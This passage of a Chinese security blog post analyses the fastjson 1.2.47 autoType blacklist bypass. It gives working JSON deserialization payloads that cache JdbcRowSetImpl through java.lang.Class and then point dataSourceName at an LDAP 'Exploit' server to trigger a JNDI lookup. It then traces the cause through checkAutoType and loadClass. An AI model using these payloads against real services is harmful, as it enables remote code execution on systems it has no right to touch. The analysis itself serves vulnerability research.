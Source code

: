 ```

 	
            assertEquals(JSONException.class, error2.getClass());

 	
        `}`

 	


 	
        assertEquals(size, mappings.size());

 	
    `}`
```

看上去和以往的payload都不太一样，先去写一个简化版的代码，调试一下

```
String payload="`{`\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"`}`";

 String payload_2 = "`{`\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://127.0.0.1:1389/Exploit\",\"autoCommit\":true`}`";

 JSON.parse(payload);

 JSON.parse(payload_2);
```

发现可以弹框成功（从49版本往前，一个版本一个版本试验，到47版本试验成功了），那这就很可疑了，但是还有个问题，漏洞要利用总不能让你同时穿进去两个json字符串让你依次parse吧，于是把两串json整理如下

```
`{`"a":`{`"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"`}`,"b":`{`"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://localhost:1389/Exploit","autoCommit":true`}``}``}`
```

果然可以利用成功，、接下来可以调试一下看看漏洞成因，因为一眼就能看出来是绕过了黑名单，所以问题的关键自然在checkAutoType()和loadClass()这两个函数中，去跟进一下

首先在”a”:`{`“@type”:”java.lang.Class”,”val”:”com.sun.rowset.JdbcRowSetImpl”`}`传入的时候，Class类是不在黑名单内的，在MiscCodec类的deserialze函数里面可以看到会将val的值拿出来用来生成对应的对象，即JdbcRowSetImpl，但是我们并没法给JdbcRowSetImpl对象的成员变量赋值，

[![](https://p2.ssl.qhimg.com/t0135713c72b4facb61.png)](https://p2.ssl.qhimg.com/t0135713c72b4facb61.png)

继续往deserialze的下面看，当传入的@type的值为Class的时候会调用loadClass函数，

[![](https://p1.ssl.qhimg.com/t019bd704eb2cac89cb.png)](https://p1.ssl.qhimg.com/t019bd704eb2cac89cb.png)

再往下跟，有调了一下loadClass函数，多加了一个值为true的参数

[![](https://p5.ssl.qhimg.com/t013376b0edf79ffe8b.png)](https://p5.ssl.qhimg.com/t013376b0edf79ffe8b.png)

再跟进去可以看到因为传入的cache为true，所以会在mapping里面把JdbcRowSetImpl这个对象的实例和com.sun.rowset.JdbcRowSetImpl对应起来，OK现在关于a的分析到此为止，
